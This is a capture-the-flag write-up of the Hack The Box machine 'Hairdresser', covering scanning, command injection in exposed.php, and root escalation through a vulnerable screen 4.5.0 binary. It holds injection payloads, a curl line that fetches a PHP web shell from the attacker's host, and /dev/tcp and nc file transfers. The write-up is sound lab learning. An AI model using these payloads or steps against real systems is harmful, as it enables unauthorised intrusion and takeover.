 # Recon : Phase 1

## `Nmap` Scan / Port Scanning

### `TCP` Deep Scan

```
# Nmap 7.94SVN scan initiated Thu Jun 12 18:14:17 2025 as: nmap -sC -sV -p22,80 -Pn -n -vv -oN nmap/tcp_deep 10.10.10.24
Nmap scan report for 10.10.10.24
Host is up, received user-set (0.073s latency).
Scanned at 2025-06-12 18:14:18 IST for 10s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo4pezhJs9c3u8vPWIL9eW4qxQOrHCslAdMftg/p1HDLCKc+9otg+MmQMlxF7jzEu8vJ0GPfg5ONRxlsfx1mwmAXmKLh9GK4WD2pFbg4iFiAO/BAUjs3dNdR1S9wR6F+yRc2jgIyKFJO3JohZZFnM6BrTkZO7+IkSF6b3z2qzaWorHZW04XHdbxKjVCHpU5ewWQ5B32ScKRJE8bsi04Z2lE5vk1NWK15gOqmuyEBK8fcQpD1zCI6bPc5qZlwrRv4r4krCb1h8zYtAwVnoZdtYVopfACgWHxqe+/8YqS8qo4nPfEXq8LkUc2VWmFztWMCBuwVFvW8Pf34VDD4dEiIwz
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLrPH0YEefX9y/Kyg9prbVSPe3U7fH06/909UK8mAIm3eb6PWCCwXYC7xZcow1ILYvxF1GTaXYTHeDF6VqX0dzc=
|   256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA+vUE7P+f2aiWmwJRuLE2qsDHrzJUzJLleMvKmIHoKM
80/tcp open  http    syn-ack ttl 63 nginx 1.10.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title:  HTB Hairdresser 
|_http-server-header: nginx/1.10.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 12 18:14:28 2025 -- 1 IP address (1 host up) scanned in 11.06 seconds
```

- 2 ports are open : 22 (SSH) and 80 (http)
- No `UDP` ports are open

<hr>
## Web App Recon

### Directory Bruteforce 

- The site at first-look looked static, rendering `.html` pages.
- Using, `ffuf` with wordlist `directory-list-2.3-small.txt` and extension `.html` , found a couple of more static pages like `hair.html` , `test.html`
- Using the same wordlist with `.php` extension, found an endpoint `exposed.php`.

### `exposed.php`

- The page says :
   `enter a hairdresser location you would like to check. for example: http://localhost/test.html`
- Entering any `url` , the app makes a request with `cURL` and renders it output on the page.
- The given `URL` is being added to the command something like this : `$ curl $URL`

<hr>

# Exploitation

## Command Injection

### Executing a different command

- Trying to break the `cURL` command using `;` and executing a simple `ping` command does not work, as the character `;` is being blocked.
- However, trying a sub-shell trick does work.
  `http://10.10.14.25/$(whoami)`
- Another trick could be **adding a new line** using **`%0a`**
- This gives a large combination of ways we can get a reverse shell.
- I will try the simplest method.

### Reverse Shell

- I use a simple payload  to save the output of the request to a writable directory of my user.
- The `pwd` does not allow me to create a file, but the `uploads` folder in the current directory does have write access.
- The payload I used :
  `http://10.10.14.25/shell.php -s -o uploads/shell.php`
- Now, starting a `nc` listener and requesting the `shell.php` page at `uploads/sehll.php`, I receive a web shell as `www-data`.

<hr>

# Recon : Phase 2

## Getting Lay of the Land

- The box has a single user `maria`.
- The system running is `Ubuntu 16.04`.
- There are no special services, other than `mysql` or `cron` jobs running.
- The home directory of `maria` has some files along with `user.txt` as readable.
- A similar file was `/home/maria/.tasks/.task1` , which had credentials for `mysql`
- Logging in as user `root` with the password found to `mysql` , there are no unique tables. Just the default ones that come with `mysql`.

### Finding `SUID` binaries

- A simple search for `SUID` binaries list the following : 
```
$ find / -perm -4000 -o -perm -2000 -type f 2>/dev/null    
/bin/ntfs-3g
/bin/ping6
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/umount
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd
/usr/bin/sudo
/usr/bin/mlocate
/usr/bin/pkexec
/usr/bin/chage
/usr/bin/screen.old
/usr/bin/newuidmap
/usr/bin/crontab
/usr/bin/bsd-write
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/expiry
/usr/bin/gpasswd
/usr/bin/ssh-agent
/usr/bin/at
/usr/bin/passwd
/usr/bin/screen-4.5.0
/usr/bin/chsh
/usr/bin/wall
/usr/bin/chfn
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/x86_64-linux-gnu/utempter/utempter
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

- Among these, `screen-4.5.0` stands out. I remember reading about a vulnerable version of this binary in the **`Linux Priv. Esc.`** module on  **`HTB Academy`**.
- This is the same version, that is indeed vulnerable.

<hr>

# Privilege Escalation

## Mistakes / Bad Practices

### Try 1 :Copy, Paste & Run

- I found an exploit for this vulnerability on **`exploitdb`**, which I just copied and executed.
- Didn't work obviously
- Furthermore, the exploit broke the system, there was no way to `undo` what the exploit did being as `www-data`
- Had to reset the box to try again.

**Note to self** : *Never ever, just copy and paste an exploit and hope it to work*

### Try 2 : Copying each command individually

- This didn't work either.
- There was an error from `gcc` during compilation. It couldn't compile a function used in the programme.
- Ignoring & moving forward again crashed the box, had to reset again.

### Try 3 : Compiling the binary on my system

- I compiled and transfer the two binaries to the box.
- After that, every step in the original script /`poc` worked as expected.
- On the last step, while trying to execute the binary as `root` , I was not able to as the binary was compiled on my system and it required that specific version of the `GLIBC` i.e. `2.23` , my system had `2.34`
- With this, I got stuck again as I had no way to undo all the actions I just did.

<hr>

## Best Approach

- The system was running `Ubuntu 16.04` with the `GLIBC version 2.23`.
- I researched a little and found that the `GLIBC v2.23` comes together with `Ubuntu 16.04`.
- To handle this, I used **Docker**.

### Compiling in Docker / `Ubuntu 16.04`

- I ran the `ubuntu:16.04` image in an interactive shell.
```bash
$ docker run -it ubuntu:16.04 /bin/bash
```

- Next, I installed the tools needed.
```bash
$ apt-get update
$ apt-get install -y build-essential gcc g++ make
```

- Finally, I copied the code and compiled the files as per the original `poc`.
- To transfer these compiled files back to my machine, I used :
```bash
ubuntu$ cat rootshell > /dev/tcp/my_machine_docker_ip/port
```

To catch the file:
```bash
$ nc -q0 -lnp 9001 > rootshell
```

### Shell as `root`

- Finally, I transferred the two files on the box, added `execute` permission to them.
- Ran the remaining commands and got a shell as `root`.